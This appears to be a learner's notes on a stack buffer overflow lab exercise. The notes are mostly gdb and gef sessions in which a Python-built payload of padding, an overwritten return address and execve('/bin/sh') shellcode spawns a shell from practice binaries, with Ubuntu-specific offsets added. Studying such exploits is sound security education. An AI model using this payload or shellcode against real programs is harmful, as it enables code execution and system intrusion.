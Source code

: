 - So the target address is `0xffffcf64`.

```sh
(gdb) r 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: shellcode/unit_03_shell/bin/silly 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*48+b'\x64\xcf\xff\xff'+b'A'*4+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
/bin/bash: line 1: warning: command substitution: ignored null byte in input
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 2, vuln (n=5,
    str=0xffffd274 'A' <repeats 48 times>, "d\317\377\377AAAA\353\027^1\300PV1Ұ\v\211\363\211\341̀1\300\260\0011\333̀\350\344\377\377\377/bin/sh")
    at silly.c:14
14      in silly.c
(gdb) c
Continuing.
process 7732 is executing new program: /usr/bin/bash
Error in re-setting breakpoint 2: Function "vuln" not defined.
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 1, 0x000055555556e9a8 in main ()
(gdb) c
Continuing.
sh-5.2$ cal
[Detaching after fork from child process 7736]
     August 2024
Su Mo Tu We Th Fr Sa
             1  2  3
 4  5  6  7  8  9 10
11 12 13 14 15 16 17
18 19 20 21 22 23 24
25 26 27 28 29 30 31
```

- __EUREKA! I did it!__

- In ubuntu it's a little bit different.
- The difference is that it needs 44 bytes of `'A'` padding, and a different address which can be discovered with `x/x $ebp+0xc`:

```sh
gef➤  r 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\xac\xce\xff\xff'+b'A'*4+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
Starting program: /home/noobuntu/nightmare/bof/shellcodin/bin/vulnerable 5 `python3 -c "import sys; sys.stdout.buffer.write(b'A'*44+b'\xac\xce\xff\xff'+b'A'*4+b'\xeb\x17\x5e\x31\xc0\x50\x56\x31\xd2\xb0\x0b\x89\xf3\x89\xe1\xcd\x80\x31\xc0\xb0\x01\x31\xdb\xcd\x80\xe8\xe4\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68'+b'\x00')"`
/bin/bash: line 1: warning: command substitution: ignored null byte in input

gef➤  c
Continuing.

Breakpoint 2, vuln (n=0x5, str=0xffffd224 'A' <repeats 44 times>, "\254\316\377\377AAAA\353\027^1\300PV1Ұ\v\211\363\211\341̀1\300\260\001\061\333̀\350\344\377\377\377/bin/sh") at vulnerable.c:17
17        strcpy(buf,str);
[ Legend: Modified register | Code | Heap | Stack | String ]
```